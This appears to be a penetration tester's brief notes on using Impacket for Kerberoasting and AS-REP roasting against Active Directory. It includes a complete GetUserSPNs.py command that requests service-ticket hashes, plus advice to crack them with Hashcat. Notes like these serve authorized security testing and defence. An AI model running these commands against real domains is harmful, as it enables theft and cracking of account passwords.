 # Using Impacket

author:: Nathan Acks  
date:: 2021-12-06

## Kerberoasting

Impacket can identify kerberoastable accounts and dump packets remotely. It comes standard with Kali Linux.

```bash
python3 \
	/usr/share/doc/python3-impacket/examples/GetUserSPNs.py \
	${DOMAIN}/${USER}:${PASSWORD} \
	-dc-ip $DOMAIN_CONTROLLER_IP -request
```

The password hashes output here can then be cracked with Hashcat (use the 13100 hash mode).

* [Kerberos](kerberos.md)
* [Using Hashcat](hashcat.md)

## AS-REP Roasting

Impacket (via GetNPUsers.py) support AS-REP roasting. However, GetNPUsers.py requires that user accounts already be enumerated and roastable accounts identified.

When using GetNPUsers.py, specify the target as `${DOMAIN}/` (i.e., leave off the user-part).
